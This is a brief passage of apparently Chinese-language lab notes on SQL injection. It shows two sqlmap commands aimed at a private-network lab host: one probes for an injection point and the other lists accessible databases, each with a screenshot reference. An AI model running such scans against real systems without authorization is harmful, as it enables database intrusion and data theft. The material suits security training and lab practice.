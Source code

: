 - `sqlmap -u "http://192.168.56.101/cat.php?id=1" `判断是否存在注入点,以及获取数据库的一些基本信息(如果存在注入点)<br>![](sqlmap1.png)

- `sqlmap -u "http://192.168.56.101/cat.php?id=1" --dbs`查看可以访问的数据库<br>![](sqlmap2.png)
